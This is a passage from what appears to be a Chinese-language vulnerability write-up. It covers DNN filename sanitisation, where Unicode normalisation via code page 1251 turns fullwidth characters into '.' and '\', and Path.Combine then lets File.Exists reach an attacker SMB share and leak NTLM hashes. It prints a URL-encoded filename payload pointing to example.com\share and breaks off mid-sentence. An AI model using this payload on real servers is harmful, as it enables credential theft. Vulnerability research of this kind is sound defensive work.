 ```
    input = regAEAE.Replace(input, "AE");
    input = regOE.Replace(input, "oe");
    input = regOEOE.Replace(input, "OE");
    input = regC.Replace(input, "c");
    input = regCC.Replace(input, "C");
    input = regDD.Replace(input, "D");
    input = regN.Replace(input, "n");
    input = regNN.Replace(input, "N");
    input = regS.Replace(input, "s");
    input = regSS.Replace(input, "S");

    input = input.Replace("�", string.Empty);

    input = Encoding.ASCII.GetString(Encoding.GetEncoding(1251).GetBytes(input));

    input = input.Replace("?", string.Empty); // replace the unknown char which created in above.
    input = input.Replace("�", string.Empty);
    input = input.Replace("\t", string.Empty);
    input = input.Replace("@", "at");
    input = input.Replace("\r", string.Empty);
    input = input.Replace("\n", string.Empty);
    input = input.Replace("+", "_");

    return input;
}
```  
  
问题出在以下这行代码：  
```
input = Encoding.ASCII.GetString(Encoding.GetEncoding(1251).GetBytes(input));
```  
  
该函数将任何 Unicode 字符标准化为 ASCII 字符。  
  
当用户输入经过此函数处理后，会调用以下代码：  
```
while (File.Exists(Path.Combine(this.StorageFolder.PhysicalPath, fileName)))
```  
  
如果 fileName  
变量包含绝对路径，Path.Combine  
调用将忽略第一个参数。攻击者控制的绝对路径随后会被传递给 File.Exists  
，这将导致与攻击者控制的 SMB 共享进行外部交互，如果一切顺利，目标系统的 NTLM 哈希将被泄露。  
  
基于这些信息，我们使用与 DNN 相同的逻辑构建了一个基本的 fuzzer（模糊测试工具），用于查找经过 Encoding.ASCII.GetString  
调用后会标准化为 .  
和 \  
的 Unicode 字符。该 fuzzer 返回了以下结果：  
```
file%EF%BC%8Eext%EF%BC%BC%EF%BC%BCexample%EF%BC%8Ecom%EF%BC%BCshare | file．ext＼＼example．com＼share | file.ext\\example.com\share
```  
  
这对应了以下字符：  
  